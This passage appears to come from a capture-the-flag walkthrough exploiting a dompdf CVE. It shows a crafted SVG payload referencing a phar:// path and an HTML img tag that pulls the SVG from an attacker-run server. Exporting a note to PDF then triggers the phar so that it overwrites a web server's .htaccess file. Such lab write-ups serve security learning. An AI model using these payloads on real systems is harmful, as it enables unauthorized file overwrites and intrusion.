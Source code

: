 ![[Screenshots/Pasted image 20230328221257.png]]


So this phar file will be responsible for moving `/srv/ftp/uploads/kavi` (that we need to upload) to `/var/www/files/.htaccess`. Once we have the phar file created, we need to upload the `kavi.phar` and `kavi` (which is an empty file) through ftp

![[Screenshots/Pasted image 20230328223502.png]]
Then we need to start setting up the environment to exploit the dompdf CVE to execute this phar file. For that we need to startup a web serer serving a crafted image that will trigger the phar file upon conversion to a pdf.

- `android.svg`
```svg
<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 96 105">
  <Image xlink:href="phar:///srv/ftp/uploads/kavi.phar"></Image>
  <g fill="#97C024" stroke="#97C024" stroke-linejoin="round" stroke-linecap="round">
    <path d="M14,40v24M81,40v24M38,68v24M57,68v24M28,42v31h39v-31z" stroke-width="12"/>
    <path d="M32,5l5,10M64,5l-6,10 " stroke-width="2"/>
  </g>
  <path d="M22,35h51v10h-51zM22,33c0-31,51-31,51,0" fill="#97C024"/>
  <g fill="#FFF">
    <circle cx="36" cy="22" r="2"/>
    <circle cx="59" cy="22" r="2"/>
  </g>
</svg>
```

Here note that the `href` attribute is set to the location of the phar file. 

Now we need to create a note embedding a image tag pointing to our malicious image.  For that we need to register a user first. Once thats done, create a note as follows.

![[Screenshots/Pasted image 20230328224251.png]]

```html
<img src="http://192.168.1.7:9090/android.svg">
```

Once the note is created, we need to export it 

![[Screenshots/Pasted image 20230328224402.png]]

You should see a hit for `android.svg` in your server which you served the malicous image.

![[Screenshots/Pasted image 20230328231450.png]]

If everything went fine, now we the `.htaccess` file in the files vhost must be overwritten, and we should be able to see the file listing.

![[Screenshots/Pasted image 20230328224543.png]]

Indeed, we do, Perfect.

So moving on, we see 2 new files other than the source code zip, a pdf file and another zip. If we look at the PDF file, we see something interesting.
